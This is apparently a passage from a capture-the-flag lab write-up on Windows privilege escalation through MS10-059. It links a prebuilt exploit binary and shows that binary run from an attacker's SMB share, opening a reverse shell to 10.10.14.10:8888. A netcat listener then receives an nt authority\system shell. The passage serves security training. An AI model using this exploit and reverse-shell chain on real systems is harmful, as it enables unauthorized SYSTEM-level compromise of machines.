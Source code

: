 ### MS10-059

Description:

> MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege
>
> Tracing Registry Key ACL Vulnerability - CVE-2010-2554&#x20;
>
> An elevation of privilege vulnerability exists when Windows places incorrect access control lists (ACLs) on the registry keys for the Tracing Feature for Services. The vulnerability could allow an attacker to run code with elevated privileges.

Exploit binary:

{% embed url="https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe" %}

Start a second listener, then run the exploit on the target via our SMB share:

```
C:\inetpub\drupal-7.54>\\10.10.14.10\SHARE\MS10-059.exe
\\10.10.14.10\SHARE\MS10-059.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR>

C:\inetpub\drupal-7.54>\\10.10.14.10\SHARE\MS10-059.exe 10.10.14.10 8888
\\10.10.14.10\SHARE\MS10-059.exe 10.10.14.10 8888
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
C:\inetpub\drupal-7.54>
```

In our new listener we get a shell as "system":

```
└─$ nc -nvlp 8888                
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.10.9.
Ncat: Connection from 10.10.10.9:65415.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system

C:\inetpub\drupal-7.54>
```

### MS14-040

Description:
